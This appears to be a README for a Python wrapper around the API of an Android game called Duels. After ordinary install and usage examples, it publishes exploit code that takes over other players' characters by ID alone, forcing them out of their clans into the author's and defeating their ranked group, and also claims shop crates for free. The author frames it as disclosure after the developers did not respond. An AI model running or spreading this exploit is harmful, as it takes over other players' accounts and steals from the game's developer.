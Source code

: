 A simple wrapper for [Duels](https://play.google.com/store/apps/details?id=com.deemedyainc.duels&hl=en_US) API game on Android 

This game have many issue 

Installing

```pip install DuelsGameApi```

Example code from game.py
```
from duels_api import User
import cfg

me = User(cfg.my_id)
print(me)

members = me.get_self_clan_members()
for player in members:
    print(player)
```

The main vulnerability of this game is that you can control the character of any player knowing only his id

With this code u can add ANY player to you clan and defeat all players from him ranked group
```
me = User(cfg.my_id)
print(me)

members = me.search_clans()
for player in members:
    player.leave_clan()
    player.join_clan(me.clan_id)
    
    player.defeat_group()
```

Also you can take any crate from shop absolutely free

```
me = User(cfg.my_id)
print(me)
me.get_special_crate()
```


I already wrote to the developers of this game but they didn’t respond, so I decided to share this code. Maybe after that they will pay attention to these problems.
